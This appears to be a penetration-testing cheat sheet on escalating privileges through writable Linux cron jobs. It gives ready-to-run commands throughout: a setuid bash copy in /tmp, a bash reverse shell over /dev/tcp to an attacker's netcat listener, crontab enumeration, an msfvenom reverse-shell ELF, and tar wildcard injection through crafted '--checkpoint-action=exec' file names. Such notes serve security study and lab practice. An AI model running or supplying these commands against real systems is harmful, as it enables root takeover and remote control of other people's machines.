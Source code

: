 If a cronjob is globally writeable, an underprivileged user can edit the contents to run 
malicious code. Since the cron job is executed with the permissions of its owner (often root), 
any inserted code will run with elevated privileges.

- Edit the cronjob to copy the `/bin/bash/` binary into the `/tmp` directory named `rootbash`
    cp /bin/bash /tmp/rootbash
    chmod +xs /tmp/rootbash

  Executing the rootbash binary with the -p option (/tmp/rootbash -p) will spawn a shell, with 
  persisting privileged permisions (in this case, root)

- Edit the cronjob with a reverse shell to connect back to a netcat listener
    bash -i >& /dev/tcp/<local_ip>/1337 0>&1

  Host a netcat listener on your local machine. Once the cronjob runs, the victim machine will 
  connect to your listener, with a mirrored privileged shell (in this case, root)

## Step one is to check if crontabs are exploitable ##

- Check for available cronjobs
    cat /etc/crontab

- If there are available cronjobs, search for their paths
    locate <cronjob>

- Once you have the path to a cronjob, list its permissions
    ls -l /path/to/cronjob

## Wildcard Injection Exploit ##

If a cronjob is globally writeable, runs as root and the tar program can be run as sudo, you can 
exploit the tar program and its arguments to gain root access

- First step is to replace the cronjob with this script:
	#!/bin/bash
	cd /home/vulnerable_user
	tar czf /tmp/backup.tar.gz *

	This script is compressing the contents of an entire directory

- Then create an elf binary that holds a reverse shell and make it executable
	msfvenom -p linux/x64/shell_reverse_tcp LHOST=host LPORT=port -f elf -o shell.elf
	chmod +x shell.elf

- Next, get the file onto the victim machine somehow
  On the victim machine, create these two files in the directory that you're telling the tar 
  program to compress
	touch /home/user/--checkpoint=1
	touch /home/user/--checkpoint-action=exec=shell.elf

- Final step is to wait until the cronjob runs
  The process is going to go like this:
	The script within the cronjob tells the computer to compress the specified directory
	Once the cronjob runs, it's going to compress the directory but will also read the two newly
		created files as arguments for the tar program, so the script will turn into:
	tar czf /tmp/backup.tar.gz file1.txt photo.jpg --checkpoint=1 --checkpoint-action=exec=shell.elf
	This full command is telling the computer to compress the chosen directory: tar czf /tmp/backup.tar.gz
	Then the files within the directory become part of the arguments: file1.txt photo.jpg --checkpoint=1 --checkpoint-action=exec=shell.elf
	The final two arguments run the exploit. They are telling the computer that "upon processing any one file (--checkpoint=1) to then run
		the shell.elf executable (--checkpoint-action=exec=shell.elf)
	This runs the reverse shell and will connect to an attackers netcat listener
